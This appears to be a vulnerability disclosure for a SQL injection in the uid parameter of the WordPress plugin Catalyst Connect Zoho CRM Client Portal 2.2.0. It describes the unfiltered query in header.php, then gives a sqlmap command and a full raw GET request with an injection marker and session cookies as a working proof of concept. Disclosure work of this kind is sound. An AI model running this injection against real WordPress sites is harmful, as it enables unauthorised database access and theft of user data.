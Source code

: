 ### The user query interface of the wordpress plugin **Catalyst Connect Zoho CRM Client Portal** has a sql injection vulnerability.

**Official website**: https://wordpress.org/plugins/catalyst-connect-client-portal/

**Version**：2.2.0

**Route**：/wp-admin/admin.php?page=usersmanagement&action=userdetails&uid=1

**API function**: search user records

**Injection parameters**: uid

**Request method**：GET

**Complete vulnerability trigger related interfaces and parameters**：/wp-admin/admin.php?page=usersmanagement&action=userdetails&uid=1

#### 1.Vulnerability analysis

In the header.php file under the pages/admin/usersManagement/details path in the project, you can see that the uid parameter is passed in through the get method and directly spliced into the SQL query statement to execute the query. There is no filtering, which will cause a SQL injection vulnerability

![image-20250312215743665](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250312215743665.png)

The header.php file will be called and executed in userdetails.php, and userdetails.php can be triggered by calling usersManagement.php, so a path can be constructed for SQL injection exploitation

![image-20250312220042579](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250312220042579.png)



#### 2.Vulnerability verification and exploitation

Vulnerability reproduction environment: wordpressV6.2.6

After installing the plug-in, you need to add a user information to verify the vulnerability.

You can use sqlmap to verify the vulnerability：python sqlmap.py -r 1.txt --batch --dbms=mysql

The specific injection data packets are as follows (need to replace nocache, security in the URL and cookies in the request header after logging in)

```
GET /wp-admin/admin.php?page=usersmanagement&action=userdetails&uid=1* HTTP/1.1
Host: wp6:84
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wordpress_fd878a606c7bb837fe398f83655e9949=admin%7C1742718907%7CTvj4Byozl1ZGVG3GNt4SydMG8k3Uc582JNbQFTybh10%7Cfbbc4c1c7856536bca6dcbcde4910c13559557071af69f132c39f51a812b3e33; PHPSESSID=2quv5qhdualkifntrt4shva7nd; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_fd878a606c7bb837fe398f83655e9949=admin%7C1742718907%7CTvj4Byozl1ZGVG3GNt4SydMG8k3Uc582JNbQFTybh10%7Ce37bdb2620a388e363b89dbe8674f7d050603ac7543f8721f9adc336ef7ff5d7; wp-settings-time-1=1741510287
Connection: close


```

![image-20250312220306046](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250312220306046.png)